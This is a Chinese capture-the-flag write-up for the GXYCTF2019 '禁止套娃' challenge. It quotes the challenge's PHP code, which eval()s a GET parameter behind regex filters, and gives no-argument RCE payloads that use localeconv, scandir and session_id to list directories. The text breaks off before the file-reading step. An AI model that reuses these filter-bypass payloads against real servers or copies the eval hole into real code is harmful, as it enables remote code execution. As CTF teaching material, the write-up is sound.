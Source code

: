 # [GXYCTF2019]禁止套娃
>学习无参RCE知识[什么是无参数函数RCE](https://skysec.top/2019/03/29/PHP-Parametric-Function-RCE/#什么是无参数函数RCE)


![在这里插入图片描述](https://img-blog.csdnimg.cn/20210609163201544.png)
>引用别人说的，目录扫描到/.git/

```php
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>

```
获取get参数

* `localeconv()`函数返回一包含本地数字及货币格式信息的数组，数组第一项是`.`，可以代表当前目录

* `current()`函数返回数组的当前单元，默认返回第一个值，结合上一个函数可以取到`.`这个值

* `scandir()`扫面指定目录，将信息以数组形式返回

* `dirname()`，返回路径中的目录部分，即去掉路径中的当前目录

* `chdir()`切换当前目录到指定位置

开始:
`exp=print_r(scandir(current(localeconv())));`

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210609175707770.png)
* `array_flip()` 将数组键值交换后读出
* `session_start()`告诉PHP使用SESSION，php默认不适用session
`?exp=print_r(session_id(session_start()));`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210609182516386.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODM3ODk2,size_16,color_FFFFFF,t_70)
使用读取文件内容函数
